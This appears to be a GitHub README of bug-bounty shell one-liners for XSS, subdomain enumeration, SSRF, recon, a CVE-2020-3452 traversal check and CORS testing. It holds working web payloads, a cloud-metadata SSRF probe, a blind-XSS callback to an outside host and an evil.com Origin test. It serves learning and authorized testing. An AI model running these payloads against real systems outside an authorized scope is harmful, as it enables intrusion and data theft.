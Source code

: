 # For loops and one liners for bug bounty 
Credits goes to all those awesome researchers who uploaded these on Twitter and GitHub  

Please Note: Kindly use this only for reference and learning purposes using this doesn't means that you will find Vulnerabilities cause everybody is using this so try to be creative while using it and modify them to get unique results :)

## One Liners for XSS

### Using DALFOX to send the result for xss

```bash
cat target_list| gau | egrep -o "http?.*" | grep "="| egrep -v ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|ico|pdf|svg|txt|js)" | qsreplace -a | dalfox pipe -blind https://yours.xss.ht -o result.txt
```

### XSS without GF Patterns

```bash
waybackurls testphp.vulnweb.com| grep '=' |qsreplace '"><script>alert(1)</script>' | while read host do ; do curl -s --path-as-is --insecure "$host" | grep -qs "<script>alert(1)</script>" && echo "$host \033[0;31m" Vulnerable;done

```

### Using Gospider with Dalfox to find XSS

```bash
gospider -S targets_urls.txt -c 10 -d 5 --blacklist ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|ico|pdf|svg|txt)" --other-source | grep -e "code-200" | awk '{print $5}'| grep "=" | qsreplace -a | dalfox pipe -o output.txt
```

### Scan subdomains from Bounty Targets data Using DalFox for XSS

```bash
wget https://raw.githubusercontent.com/arkadiyt/bounty-targets-data/master/data/domains.txt -nv ; | subfinder -dL domains.txt | httpx -silent -threads 500 | tee -a subdomains.txt | dalfox file subdomains.txt -b your.xss.ht pipe

```
### Using Kxss for finding xss 

```bash
cat http://subdomains.txt | waybackurls | kxss
```

### Using Gospider with qsreplace

```bash
gospider -S domain.txt -t 3 -c 100 |  tr " " "\n" | grep -v ".js" | grep "https://" | grep "=" | qsreplace '%22><svg/onload=confirm(1);>'
```

************************************************************************************************************************************


## For Finding Subdomains AssetDiscovery  

### For making a huge wordlist of subdomains with Rapid 7 FDNS @m4ll0k

Download the zip file from here
```bash
gzip -dc latestfile-fdns_a.json.gz | jq .name | sed 's/"//g' | xargs -I @bash -c 'tldextract @' | awk '{print $1}' >> mysubs.txt 
```

### One liner to fetch all URLs in scope of all public programs @_ayoubfathi_

```bash
curl -s https://raw.githubusercontent.com/arkadiyt/bounty-targets-data/master/data/hackerone_data.json | jq -r '.[].targets.in_scope[] | select(.asset_type|contains("URL")) | .asset_identifier' |grep -v "*" | sort
```
### Finding Subdomains from crt.sh @vict0ni

```bash
curl -s "https://crt.sh/?q=%25.$1&output=json" | jq -r '.[].name_value' | sed 's/\*\.//g' | sort -u
```

### From Bounty Targets Data @dwisiswant0

For Hackerone
```bash
curl -sL https://github.com/arkadiyt/bounty-targets-data/blob/master/data/hackerone_data.json?raw=true | jq -r '.[].targets.in_scope[] | [.asset_identifier, .asset_type] | @tsv'

```
For Bugcrowd
```bash
curl -sL https://github.com/arkadiyt/bounty-targets-data/raw/master/data/bugcrowd_data.json | jq -r '.[].targets.in_scope[] | [.target, .type] | @tsv'

```
For Intigriti
```bash
curl -sL https://github.com/arkadiyt/bounty-targets-data/raw/master/data/intigriti_data.json | jq -r '.[].targets.in_scope[] | [.endpoint, .type] | @tsv'

```

### For Finding ASN's of a ORG using amass @KingOFBugBounty
```bash
amass intel -org paypal -max-dns-queries 2500 | awk -F, '{print $1}' ORS=',' | sed 's/,$//' | xargs -P3 -I@ -d ',' amass intel -asn @ -max-dns-queries 2500''

```

### While Loop For Subfinder To Discovery new Subdoamins it will run Every 2 hours

```bash
while true; do subfinder -dL domains.txt -all | anew subdomains1.txt | httpx | notify ; sleep 7200; done
```
Note: Before running the above command make sure you do the below first:
Run `subfinder -dL domains.txt -all >> subdomains1.txt`

Install nuclei, subfinder, Notify and anew



### Brute Force List of subdomains using FFuf

```bash
for url in ` cat $filename `; do ffuf -c -w path.txt -u $url/FUZZ -o result.json ; done >> result.txt
```

### For finding Hidden Servers and Admin Panles @rez0

```bash
ffuf -c -u https://target .com -H "Host: FUZZ" -w vhost_wordlist.txt 

```

## One liners for SSRF

### Using waybackurls and gau @R0X4R
After finding subdomains with HTTPX run the Following

```bash
cat subdomains.txt | gauplus --random-agent -b png,jpg,svg,gif -t 100 | anew -q gau_output.txt
cat subdomains.txt | xargs -P 30 -I host bash -c "echo host | waybackurls | anew -q wayback_output.txt"
cat wayback_output.txt gau_output.txt | urldedupe -s | anew -q parameters.txt

Mannual
cat parameters.txt | qsreplace "http://169.254.169.254/latest/meta-data/hostname" | xargs -I host -P 50 bash -c "curl -ks 'host' | grep \"compute.internal\" && echo -e \"[VULNERABLE] - X \n \"" | grep "VULN"


Using OOB
cat parameters.txt | gf ssrf | anew -q ssrf.txt

cat ssrf.txt | qsreplace "interactsh server ID" | anew -q ssrf_test.txt
ffuf -w ssrf_test.txt -u FUZZ -p "0.6-1.2" -H "(header in thread)" -t 200 -s

```
### Using nuclei and Gf for microstrategy SSRF @Virdoex_hunter
```bash
subfdiner -dL domains.txt | httpx | gau | gf ssrf | nuclei -t ~/nuclei-templates/vulnerabilities/other/microstrategy-ssrf.yaml -o result.txt

```
## One Liners for Recon and Visual inspection

### Using Assetfinder with gowitness

```bash
assetfinder -subs-only army.mil | httpx -silent -timeout 50 | xargs -I@ sh -c 'gowitness single @' 
```

### Find Subdomains using Subfinder and opens them on Firefox @payloadartists

```bash
subfinder -d $1 -silent -t 100 | httprobe -c 50 | sort -u | while read line; do firefox $line; sleep 10; done

```


## One Liners for information disclosure

### Using WaybackURL to find Excel File leads to PII Disclosure @M0_SADAT

```bash
gau http://hacked-site.com | waybackurls | grep ".xlsx"

```


## One Liners for CVE and and other Vulnerabilties

### To find CVE 2020-3452 

```bash
while read domains.txt; do curl -s -k "https://$domains/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../" | head | grep -q "Cisco" && echo -e "[${GREEN}VULNERABLE${NC}] $LINE" || echo -e "[${RED}NOT VULNERABLE${NC}] $LINE"; done < domain_list.txt
```

### CORS Missconfiguration @@ManasH4rsh

```bash
site="https://example.com"; gau "$site" | while read url;do target=$(curl -s -I -H "Origin: https://evil.com" -X GET $url) | if grep 'https://evil.com'; then [Potentional CORS Found]echo $url;else echo Nothing on "$url";fi;done

```



